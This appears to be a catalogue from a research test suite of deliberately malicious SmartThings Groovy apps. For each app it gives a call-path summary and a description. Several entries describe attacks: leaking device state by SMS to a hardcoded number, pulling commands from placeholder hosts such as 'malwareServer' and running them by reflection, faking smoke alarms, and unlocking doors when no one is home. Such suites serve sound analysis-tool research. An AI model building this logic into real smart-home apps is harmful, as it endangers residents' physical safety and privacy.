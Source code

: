 ## ID10DynamicPage+.groovy
There is no specific malicious code but there are many possible preferences that users can set. Hence, this can easily cause configuration errors to occur 
1) users find it complex to configure the apps, 
2) Context verification is hard through optional blocks such as description, "title". 
3) This allows an adversary to distribute malicious apps easily.

## ID11.1DataLeak+.groovy
Violation path: DataLeak+[motionStoppedHandler] >> DataLeak+[checkMotion] >> DataLeak+[attack] >> DataLeak+[runIn(60*0.1,changeIntensity,[overwrite: false])] >> DataLeak+[changeIntensity] >> DataLeak+[myswitch.setLevel(value+20)] >> DataLeak+[myswitch.setLevel(value+20)]
DataLeak+[changeIntensity] >> DataLeak+[myswitch.setLevel(value+20)] >> DataLeak+[changeIntensity] >> DataLeak+[myswitch.setLevel(value+20)] >> DataLeak+[myswitch.setLevel(value-20)] >> DataLeak+[changeIntensity]

Sensitive data leak example through light. Continuously increase and then decrease the intensity of light 

## ID11SensitiveDataLeak+.groovy
SensitiveDataLeak+[switchOffHandler] >> SensitiveDataLeak+[takeActions] >> SensitiveDataLeak+[send(message)] >> SensitiveDataLeak+[sendSms(phoneNumber, "${onSwitches.size()}"), SensitiveDataLeak+[sendSms(phoneNumber, state.msg),  SensitiveDataLeak+[sendSms(phoneNumber, messages)] 

State.msg and onSwitches are defined in correctTime() and they contain sensitive data on whether the switches are turned on and how many of them are turned on. Messages is defined in eventhandler() and contains the deviceId. All these sensitive data are sent to a hardcoded phone number.

## ID12RemoteCommand+.groovy
RemoteCommand+[initialize] >> RemoteCommand+[runEvery1Hour] >> RemoteCommand+[attack] >> RemoteCommand+[httpGet("http://malwareServer/getCommand")] >> RemoteCommand+["$state.command"()] 

Get command from a server using httpGet("http://malwareServer/getCommand")and execute it. (can be with or without a device)

## ID13RunTimeLogicRequired+.groovy
RunTimeLogicRequired+[presenceChanged] >> RunTimeLogicRequired+[performAction(s)] >> RunTimeLogicRequired+[$f()] 

There are ways to trick static analysis, one method is reflection through strings. This shows how static analysis system may fail (over-approximate)
performAction(s) is called, which accepts a string referring to the name of another function that will be executed.

## ID1BrightenMyPath+.groovy
BrightenMyPath+[motionActiveHandler] >> BrightenMyPath+[switch1.on()] >> BrightenMyPath+[switch1.off()] 

The app is supposed to turn on the lights when motion is detected, but an extra malicious line is added to turn off the lights.

## ID2SecuritySystem+.groovy
SecuritySystem+[presenceHandler] >> if (evt.value == "not present") SecuritySystem+[runIn( delay, turnOff )]  >> SecuritySystem+[switches.off()] 

Attacker tricks use of security system switch and turns off when user is not present

## ID3SmokeAlarm+.groovy
SmokeAlarm+[smokeHandler] >> SmokeAlarm+[runIn(getFakeValue, 60)] >> SmokeAlarm+[httpGet("http://maliciousURL/fakeStatus.php")] >> SmokeAlarm+[createFakeAlarm()] >> SmokeAlarm+[alarm.strobe()] >> SmokeAlarm+[sendNotification] >> >> SmokeAlarm+[sendSms] 
 
The smoke detector generates fake alarms which allows an attacker to break in the house.
It can also receive different malicious commands from a server to execute, instead of just alarm.strobe().

## ID3TurnItOnOffandOnEvery30Secs+.groovy
TurnItOnOffandOnEvery30Secs+[contactOpenHandler] >> TurnItOnOffandOnEvery30Secs+[switch1.on()] >> TurnItOnOffandOnEvery30Secs+[runIn(fiveMinDelay, turnOffSwitch)] >> TurnItOnOffandOnEvery30Secs+[turnOffSwitch] >> TurnItOnOffandOnEvery30Secs+[runIn(thirtySecDelay, turnOffSwitch)] >> TurnItOnOffandOnEvery30Secs+[switch1.off()] >> 

When a SmartSense Multi (contact sensor) is opened, a switch will be turned on, and then a turn off signal is sent every 30 seconds.

## ID4PowerAllowance+.groovy
PowerAllowance+[switchOnHandler] >> PowerAllowance+[runIn(delay, turnOffSwitch)] >> PowerAllowance+[turnOffSwitch] >> PowerAllowance+[theSwitch.off()] >> PowerAllowance+[turnOnSwitch()] >> PowerAllowance+[theSwitch.on()] >> 

Save energy or restrict total time an appliance (like a curling iron or TV) can be in use.  When a switch turns on, automatically turn it back off after a set number of minutes you specify. However, malicious code is added that will turn the switch back on. 

## ID5.1FakeAlarm+.groovy
FakeAlarm+[runIn(10, attack)] >> FakeAlarm+[attack] >> FakeAlarm+[createFakeEvent] >> FakeAlarm+[smokeHandler([name:"smoke" ,value:"detected"])] 

Similar to ID3SmokeAlarm+.groovy. However, this is more direct as it immediately calls the attack() function from initialize().

## ID5DynamicMethodInvocationAlarm+.groovy
DynamicMethodInvocationAlarm+[strobeHandler] >> DynamicMethodInvocationAlarm+[attack] >> DynamicMethodInvocationAlarm+[httpGet("http://server/maliciousServer.php")] >> DynamicMethodInvocationAlarm+["$state.method"()] 

The smoke detector alarm may invoke a method call by reflection.
Get a malicious method name from a server using httpGet("http://server/maliciousServer.php") and execute it. An example is stopAlarm() >> alarm.off() which will turn off the alarm after it is supposed to turn on when smoke is detected.

## ID6TurnOnSwitchNotHome+.groovy
TurnOnSwitchNotHome+[presence] >> if evt.value == "not present" TurnOnSwitchNotHome+[myswitch.setLevel(0)] >> TurnOnSwitchNotHome+[thelock.lock()] >> TurnOnSwitchNotHome+[runIn(0.1 * 60, triggerSwitch, [overwrite: false])] >> TurnOnSwitchNotHome+[triggerSwitch] >> TurnOnSwitchNotHome+[changeSwitchIntensity] >> TurnOnSwitchNotHome+[myswitch.setLevel(20)] >> TurnOnSwitchNotHome+[unlockDoor] >> TurnOnSwitchNotHome+[thelock.unlock()] 

The app locks the door and turns off the switch (change intensity) when the user is not present at home. However, malicious code is injected to unlock the door and turn on the switches after some time.

## ID7ConflictTimeandPresenceSensor+.groovy
ConflictTimeandPresenceSensor+[presenceHandler] >> if (evt.value == "not present") ConflictTimeandPresenceSensor+[switches.off()] >> if (evt.value != "not present") ConflictTimeandPresenceSensor+[switches.on()] 

ConflictTimeandPresenceSensor+[schedule(startTime, "startTimerCallback")] >> ConflictTimeandPresenceSensor+[startTimerCallback] >> ConflictTimeandPresenceSensor+[switches.on()] >> 

ConflictTimeandPresenceSensor+[schedule(stopTime, "stopTimerCallback")] >> ConflictTimeandPresenceSensor+[stopTimerCallback]>> ConflictTimeandPresenceSensor+ [switches.off()] 

Turn on one or more switches at a specified time and turn them off at a later time. When the user is present, turn on the switch. When the user is not present, turns off the switch. Presence sensor and user specified times may conflict and may create an unexpected behavior.

## ID8.1LocationModeChangeFail+.groovy
LocationModeChangeFail+[presence] >> LocationModeChangeFail+[runIn(findFalseAlarmThreshold() * 60, "takeAction", [overwrite: false])] >> LocationModeChangeFail+[takeAction] 

Monitors a set of presence detectors and triggers a mode change when everyone has left.This app has a bug that does not implement a location mode change specified by the user. (setLocationMode(newMode))  Therefore, it impacts other apps that have subscribed to the location mode change.

## ID8LocationSubscribeFailure+.groovy

This app is based on the location mode, locks or unlocks the doors through mode set via presence event. However, there is a missing subscription in initialize() and installed(). The subscription should have been set using subscribe(location, modeChangeHandler). Hence, this causes the app to not function correctly by locking/unlocking the door depending on the location mode.
Simulator allows dead codes. Event not subscribed, yet handler is there.

## ID9DisableVacationMode+.groovy
DisableVacationMode+[presence] >>if (evt.value == "not present") DisableVacationMode+[takeAction] >> DisableVacationMode+[setLocationMode(newMode)] >> DisableVacationMode+[runIn(60, attack)] >> DisableVacationMode+[attack] >> DisableVacationMode+[setLocationMode("Home")] 

This app set the location mode to be home when everyone is away, which can lead to unintended consequences.

